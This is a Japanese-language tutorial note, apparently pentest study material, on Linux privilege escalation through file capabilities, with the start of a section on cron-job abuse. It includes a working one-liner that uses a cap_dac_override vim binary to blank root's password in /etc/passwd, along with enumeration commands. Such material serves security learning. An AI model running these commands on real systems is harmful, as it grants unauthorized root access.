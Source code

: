 |     |                                                                                                                                                                          |
| --- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| 値   | 説明                                                                                                                                                                       |
| =   | 実行ファイルに指定されたケーパビリティを設定しますが、どの権限セット（Effective, Permitted, Inheritable）にも追加しません。これは、以前に設定されたケーパビリティをクリアしたい場合に便利です。（例: setcap cap_net_raw= /bin/ping）                       |
| +ep | 指定されたケーパビリティを、実行ファイルの **Effective (有効)** および **Permitted (許可)** 権限セットに追加します。これにより、実行ファイルはそのケーパビリティが許可するアクションを実行できますが、許可されていないアクションは実行できません。                              |
| +ei | 指定されたケーパビリティを、実行ファイルの **Effective (有効)** および **Inheritable (継承可能)** 権限セットに追加します。これにより、実行ファイルはそのケーパビリティが許可するアクションを実行でき、その実行ファイルから起動された子プロセスもそのケーパビリティを継承して同じアクションを実行できます。 |
| +p  | 指定されたケーパビリティを、実行ファイルの **Permitted (許可)** 権限セットに追加します。これにより、実行ファイルはそのケーパビリティが許可するアクションを実行できますが、Effectiveセットには追加されないため、プログラム内で明示的に有効化する必要があります。また、子プロセスに継承させることも防ぎます。      |

### 攻撃
#### ケーパビリティの列挙
```sh
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

/usr/bin/vim.basic cap_dac_override=eip
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
```

権限昇格できる可能性のあるケーパビリティ一覧

| ケーパビリティ          | 説明                                                                                           |
| ---------------- | -------------------------------------------------------------------------------------------- |
| cap_setuid       | プロセスが自身の **Effective User ID (実効ユーザーID)** を設定できるようにする。これを利用して、rootユーザーを含む他のユーザーの権限を取得できます。   |
| cap_setgid       | プロセスが自身の **Effective Group ID (実効グループID)** を設定できるようにします。これを利用して、rootグループを含む他のグループの権限を取得できます。 |
| cap_sys_admin    | システム設定の変更やファイルシステムのマウント/アンマウントなど、rootユーザー用に予約されている多くのアクションを実行する能力を含む、広範な管理者権限を提供します。         |
| cap_dac_override | ファイルの読み取り、書き込み、実行に関する **パーミッションチェックをバイパス** できます。これにより、アクセス権がないファイルにもアクセスできてしまいます。            |
#### 攻撃
- もし低権限のアカウントでシステムにアクセスできた後、cap_dac_overrideケーパビリティが設定されたバイナリを発見した場合

例 : /usr/bin/vim.basicバイナリはsudoのような特別な権限なしで実行される
- このバイナリにはcap_dac_override=eipケーパビリティが設定されているため、ファイルのパーミッションチェックをバイパスできる
- このバイナリを実行するユーザーは、本来アクセスできないファイルに対しても読み書きが可能になる
ケーパビリティの確認
```shell-session
getcap /usr/bin/vim.basic
> /usr/bin/vim.basic cap_dac_override=eip
```

ファイルの読み書きできる
```shell-session
/usr/bin/vim.basic /etc/passwd
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```
/etc/passwdで、`root:x:0:0:root:/root:/bin/bash` ⇨ `root::0:0:root:/root:/bin/bash`にすることでrootにパスワードなしでログインできるようになる


# サービスに基づく権限昇格
## Cronjobの悪用
- cronはみんな知ってる定期的にタスクを実行するやつやね
- rootユーザーのcrontabは、普通、rootユーザーかsudo権限を持つユーザーのみ編集できるけど、rootで実行される誰でも書き込み可能なスクリプトとかが見つかることがある、こういうのが見つかると悪用できる
- `/dmz-backups`ディレクトリにあるbackup.shファイルは興味深く、クロンジョブで実行されている可能性がある
